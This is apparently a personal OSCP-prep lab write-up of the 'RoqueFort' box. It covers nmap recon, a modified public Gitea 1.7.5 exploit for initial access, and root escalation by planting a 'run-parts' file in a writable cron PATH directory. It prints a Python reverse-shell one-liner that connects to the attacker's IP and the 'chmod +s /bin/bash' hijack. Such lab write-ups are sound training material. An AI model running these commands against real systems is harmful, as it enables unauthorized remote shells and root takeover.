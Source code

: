 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: RoqueFort
tags: ["cron", "priv-esc", "gitea"]
---
```

**Start 09:47 03-01-2025**

---
```
Scope:
192.168.196.67
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.196.67 -T5 -vvvv --min-rate=5000 -sT -p-

PORT     STATE  SERVICE REASON       VERSION
21/tcp   open   ftp     syn-ack      ProFTPD 1.3.5b
22/tcp   open   ssh     syn-ack      OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
53/tcp   closed domain  conn-refused
2222/tcp open   ssh     syn-ack      Dropbear sshd 2016.74 (protocol 2.0)
3000/tcp open   ppp?    syn-ack
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=c8575ef77f13f677; Path=/; HttpOnly
|     Set-Cookie: _csrf=yQu0cXuU-FS39aos97X2UjKsYrw6MTczNTg5NDA3NzY3OTMxODE1MQ%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:47:57 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:47:57 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|     navigator.serviceWorker.register('/serviceworker.js').then(function(registration) {
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=adb8b86ceaefc313; Path=/; HttpOnly
|     Set-Cookie: _csrf=XoE1yPfF5RrD9PGqxmDhOJIFlAU6MTczNTg5NDA4MjgzMjkwMjYzMw%3D%3D; Path=/; Expires=Sat, 04 Jan 2025 08:48:02 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Fri, 03 Jan 2025 08:48:02 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <script>
|     ('serviceWorker' in navigator) {
|     window.addEventListener('load', function() {
|_    navigator.serviceWorker.register('/serviceworker.js').then(function(registration
```

I tried to log in as `anonymous` into FTP with no luck:

![](../../../assets/93711ad2619920b8c7f77432c534f440.png)

Then I started enumerating services and found that **Gitea 1.7.5** is running on **port 3000**.

![](../../../assets/3c628a6989ac321dc676957398e0e4ba.png)

I checked for exploits and found one:

![](../../../assets/692df4164f2603a752476ebd33ccb127.png)

As for further enumeration I did not find anything useful for the `Dropbear` SSH service.


## Initial Foothold

### 3000/TCP - HTTP

I downloaded the PoC and started modifying it:

![](../../../assets/68817665ebf460c4fb4276e123fb9fa3.png)

![](../../../assets/14636249f3af98dc9bdd37f9cc30a6dc.png)

I now had to create a `shell` payload that I could use to get a reverse shell.

![](../../../assets/b8354c0a8bab1915e1f58cca0ba84d34.png)

I booted up my `nc` listener and got to work.

![](../../../assets/5432ef5afebb4c0409de3437c7348143.png)

Unfortunately after the **Succesful login** I got an error.

:::fail
I went too fast, the premise is to create an account first.
:::

I registered a new account:

```
test1
test123
```

![](../../../assets/1f8f2c2011f06a9889487b9bbb16d48f.png)

I then had to modify the PoC again to include the newly created user.

![](../../../assets/a3e324a77a3d30c0bc3d8fb06594604b.png)

For whatever reason the exploit still wouldn't fire correctly:

![](../../../assets/0f382a644ec896802899222aacc2195a.png)

I went ahead and reverted the machine.

After reverting the machine another problem showed up. The exploit succesfully uploaded but the reverse shell wouldn't fire. Time to try another payload:

![](../../../assets/83e1994d59dcca4991649ac59efb1fc1.png)

After many many reverts I FINALLY managed to get a shell:

![](../../../assets/802a1357ce112b203ef404bbb73dcf87.png)

I then upgraded the shell using `script -c bash /dev/null`:

![](../../../assets/16479e286e66db6b968b527400813d8f.png)

### local.txt

![](../../../assets/fec11203b599639f90c321a9ec36b0e5.png)


## Privilege Escalation

Now that we have access we can get to enumerating the system and finding a way to exploit it.

I started off with `sudo -l` which gave me a surprise right away:

![](../../../assets/770b5af9f918a96a01cbfd12a00ee195.png)

I then went ahead and enumerated SUID/GUID binaries:

![](../../../assets/1ebef2317cf36cfa80342b5325e9dcc2.png)

I could've gone and enumerated it manually but instead I downloaded `linpeas.sh`:

![](../../../assets/3a1c4969ff10837557db3e64033f2809.png)

Right away I noticed the following:

![](../../../assets/39f665cdfb73e54d57ed808c3dacb5bb.png)

As well as:

![](../../../assets/b9f29aa527753250303754e3bdf1bf85.png)

:::note
We see `/usr/bin/local` as an interesting writable directory. It’s also set up in the cron path in the second position.
:::

I went ahead and enumerated the cron jobs:

![](../../../assets/1848e5ae7f316e74640af772b3828600.png)

![](../../../assets/eca3adfec6d564bab7cd33dbc229c7fb.png)

:::important
At the top we notice the cron job `cd / && run-parts --report /etc/cron.hourly`. This means we could write a `run-parts` executable within `/usr/local/bin` which will then get executed within the hour and give us a `root` shell, as it the cron job is owned by `root`.
:::

Let's put this in practice:

```bash
python3 -c 'import socket,subprocess,os;s=scoket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.238",2223));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

I made this in my Kali machine, then transferred it over and `chmod 777` the file and then waited for a root shell.

:::fail
This took a really long time without any effect, I also tried a `msfvenom` payload to no avail.
:::

### Succesful approach

```bash
echo "chmod +s /bin/bash" > run-parts
chmod +x run-parts

ls -la /bin/bash
-rwsr-sr-x 1 root root 1099016 May 15  2017 /bin/bash
```

We can now go ahead and run `bash -p` to elevate our shell:

![](../../../assets/f8b033013bf10b5576c87421d1c3fabe.png)

:::success
We have FINALLY after many reverts successfully escalated our privileges.
:::

### proof.txt

![](../../../assets/d95e28fefce7a7d70046458ae025013d.png)

---

**Finished 12:01 03-01-2025**

[^Links]: [[OSCP Prep]]  
